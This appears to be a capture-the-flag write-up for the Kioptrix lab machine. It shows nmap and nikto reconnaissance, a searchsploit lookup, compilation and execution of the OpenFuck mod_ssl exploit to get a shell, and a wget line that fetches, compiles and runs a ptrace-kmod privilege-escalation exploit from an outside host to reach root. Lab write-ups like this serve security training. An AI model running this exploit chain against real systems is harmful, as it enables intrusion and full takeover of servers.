

From this list: https://github.com/Ignitetechnologies/CTF-Difficulty
Find the device on the network:
crazyeights@es-base:~$ nmap -PS 192.168.0.1-255
Nmap scan report for 192.168.0.202
Host is up (0.00098s latency).
Not shown: 994 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
111/tcp open rpcbind
139/tcp open netbios-ssn
443/tcp open https
1024/tcp open kdm
Find details about running services:
crazyeights@es-base:~$ nmap -A -p- 192.168.0.202
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-04 10:13 EST
Nmap scan report for 192.168.0.202
Host is up (0.00060s latency).
Not shown: 65529 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 2.9p2 (protocol 1.99)
80/tcp open http Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp open rpcbind 2 (RPC #100000)
139/tcp open netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp open ssl/https Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open status 1 (RPC #100024)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
Index Page:
Enumeration:
crazyeights@es-base:~$ dirb http://192.168.0.202
With nikto:
crazyeights@es-base:~$ nikto -h http://192.168.0.202
+ Server: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
[SNIP]
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
[SNIP]
crazyeights@es-base:~$ searchsploit mod_ssl
---------------------------------------------- ---------------------------------
Exploit Title | Path
---------------------------------------------- ---------------------------------
Apache mod_ssl 2.0.x - Remote Denial of Servi | linux/dos/24590.txt
Apache mod_ssl 2.8.x - Off-by-One HTAccess Bu | multiple/dos/21575.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2. | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2. | unix/remote/764.c
Apache mod_ssl OpenSSL < 0.9.6d / < 0.9.7-bet | unix/remote/40347.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
crazyeights@es-base:~$
Found:
https://www.hypn.za.net/blog/2017/08/27/compiling-exploit-764-c-in-2017/
Make the changes it says in the article, and it will compile, and download ptrace-mod (2021)
Compile the exploit:
crazyeights@es-base:~$ gcc -o 764 764.c -lcrypto
: Usage: ./764 target box [port] [-c N]
target - supported box eg: 0x00
box - hostname or IP address
port - port for ssl connection
-c open N connections. (use range 40-50 if u dont know)
0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
crazyeights@es-base:~$ ./764 0x6a 192.168.0.202 443 -c 40
crazyeights@es-base:~$ ./764 0x6b 192.168.0.202 443 -c 40
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena irc.brasnet.org *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************
Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c ciphers: 0x80f8070
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304
--11:58:50-- https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
=> `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]
0K ... 100% @ 3.74 MB/s
11:58:50 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]
[+] Attached to 6283
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
Looked for flags found none.
FIN. 🥳